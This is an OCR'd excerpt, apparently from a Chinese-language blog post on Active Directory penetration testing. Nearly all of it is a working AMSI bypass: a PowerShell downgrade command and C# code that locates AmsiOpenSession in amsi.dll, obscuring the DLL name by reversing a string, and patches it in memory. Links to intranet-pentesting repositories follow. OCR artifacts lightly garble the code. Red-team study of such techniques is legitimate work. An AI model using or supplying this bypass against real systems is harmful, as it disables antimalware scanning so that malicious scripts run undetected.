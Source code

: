 1-

powershell.exe -version 2 //改变powershell运行版本-

### 内存补丁


$p=@"-
using System;-
using System.Linq;-
using System.Runtime.InteropServices;-
public class Program-
{-
\[DllImport("kernel32")\]-
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);-
\[DllImport("kernel32")\]-
public static extern IntPtr LoadLibrary(string name);-
\[DllImport("kernel32")\]-
public static extern IntPtr VirtualProtect(IntPtr lpAddress, UIntPtr dwSize,-
uint flNewProtect, out uint lpfloldProtect);-
public static void Bypass()-
{-
String a =-
"isma";-
IntPtr lib = LoadLibrary(String.Join(""-
, a.Reverse().ToArray()) +-
"-
.dll");-
IntPtr addr = GetProcAddress(lib,-
"AmsiOpenSession");-
uint old = 0;-
byte\[\] p;-
p = new byte\[6\];-
p\[0\] = 0xB8;-
p\[1\] = 0xFF;-
p\[2\] = 0xFF;-
p\[3\] = 0xFF;-
p\[4\] = 0xFF;-
p\[5\] = 0xC3;-
VirtualProtect(addr, (UIntPtr)p.Length, 0x04, out old);-
Marshal.Copy(p, 0, addr, p.Length);-
VirtualProtect(addr, (UIntPtr)p.Length, old, out old);-
 }-
}-
"@-
Add-Type $p-
\[Program\]::Bypass()-

参考链接：

1-
2-

https://github.com/NyDubh3/Pentesting-Active-Directory-CN-
https://github.com/shmilylty/Intranet\_Penetration\_Tips-

Peace.

[查看原网页: 0range-x.github.io](https://0range-x.github.io/2022/01/26/Domain-penetration_one-stop/)